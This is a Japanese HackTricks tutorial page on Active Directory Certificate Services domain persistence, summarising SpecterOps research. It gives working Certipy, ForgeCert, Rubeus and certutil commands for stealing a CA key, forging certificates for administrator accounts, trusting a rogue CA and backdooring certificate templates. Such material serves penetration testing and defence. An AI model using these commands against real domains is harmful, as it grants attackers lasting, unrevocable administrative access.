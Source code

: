 # AD CS ドメイン永続性

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) をフォローする**
* **ハッキングテクニックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出する

</details>

**これは、[https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)** で共有されているドメイン永続性技術の要約です。詳細については、そちらをご確認ください。

## 盗まれたCA証明書を使用した証明書の偽造 - DPERSIST1

証明書がCA証明書であるかどうかをどのように判断できますか？

証明書がCA証明書であることが確認される条件は次のとおりです：

- 証明書はCAサーバーに保存されており、そのプライベートキーはマシンのDPAPIによって保護されているか、オペレーティングシステムがサポートしている場合はTPM/HSMなどのハードウェアによって保護されています。
- 証明書の発行者とサブジェクトのフィールドがCAの識別名と一致しています。
- "CA Version" 拡張子がCA証明書にのみ存在します。
- 証明書には拡張キー使用（EKU）フィールドがありません。

この証明書のプライベートキーを抽出するには、CAサーバー上の `certsrv.msc` ツールが組み込みGUIを介してサポートされています。ただし、この証明書はシステム内に保存されている他の証明書と変わりません。そのため、[THEFT2 技術](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) のような手法を抽出に適用することができます。

次のコマンドを使用して、Certipyを使用して証明書とプライベートキーを取得することもできます：
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
CA証明書とその秘密鍵を`.pfx`形式で取得した後、[ForgeCert](https://github.com/GhostPack/ForgeCert)のようなツールを使用して有効な証明書を生成できます：
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
証明書偽造の対象ユーザーは、プロセスが成功するためにはActive Directoryで認証できるアクティブなユーザーである必要があります。krbtgtなどの特別なアカウントのための証明書偽造は効果がありません。
{% endhint %}

この偽造された証明書は、指定された終了日まで**有効**であり、ルートCA証明書が有効である限り（通常、5年から**10年以上**）、**マシン**に対しても有効です。これに**S4U2Self**を組み合わせることで、攻撃者はCA証明書が有効である限り、**任意のドメインマシンで持続性を維持**できます。\
さらに、この方法で生成された**証明書は取り消すことができません**。なぜなら、CAがそれらを認識していないからです。

## ローグCA証明書を信頼する - DPERSIST2

`NTAuthCertificates`オブジェクトは、その`cacertificate`属性内に1つ以上の**CA証明書**を含むように定義されており、Active Directory（AD）がこれを利用しています。**ドメインコントローラー**による検証プロセスは、認証中の証明書の発行者フィールドに指定された**CA**に一致するエントリを`NTAuthCertificates`オブジェクトで確認します。一致が見つかれば、認証が進行します。

攻撃者は、自己署名のCA証明書を`NTAuthCertificates`オブジェクトに追加できます。これには、このADオブジェクトを制御できる必要があります。通常、**Enterprise Admin**グループのメンバー、**Domain Admins**または**Administrators**（フォレストルートのドメイン）にのみ、このオブジェクトを変更する権限が与えられます。彼らは`certutil.exe`を使用して`NTAuthCertificates`オブジェクトを編集できます。コマンドは`certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`です。または[**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool)を使用することもできます。

この機能は、以前にForgeCertを使用して証明書を動的に生成する方法と組み合わせて使用される場合に特に関連があります。

## 悪意のある構成ミス - DPERSIST3

**AD CS**コンポーネントの**セキュリティ記述子の変更**を通じて**持続性**を確保する機会は豊富です。"[Domain Escalation](domain-escalation.md)"セクションで説明されている変更は、昇格アクセス権を持つ攻撃者によって悪用される可能性があります。これには、以下のような**「制御権限」**（例：WriteOwner/WriteDACLなど）の追加が含まれます：

- **CAサーバーのADコンピューター**オブジェクト
- **CAサーバーのRPC/DCOMサーバー**
- **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`**内の**子孫ADオブジェクトまたはコンテナ**（たとえば、証明書テンプレートコンテナ、認証局コンテナ、NTAuthCertificatesオブジェクトなど）
- デフォルトでまたは組織によって**AD CSを制御する権限を委任されたADグループ**（ビルトインのCert Publishersグループおよびそのメンバーなど）

悪意のある実装の例として、ドメイン内で昇格権限を持つ攻撃者が、**デフォルトの「User」**証明書テンプレートに**`WriteOwner`**権限を追加し、その権限の主体として自分自身を設定することが考えられます。これを悪用するために、攻撃者はまず**`User`**テンプレートの所有権を自分自身に変更します。その後、**`mspki-certificate-name-flag`**を**1**に設定して**`ENROLLEE_SUPPLIES_SUBJECT`**を有効にし、ユーザーがリクエストでサブジェクト代替名を提供できるようにします。その後、攻撃者は**テンプレート**を使用して**登録**し、代替名として**ドメイン管理者**名を選択し、取得した証明書をDAとして認証に使用できます。
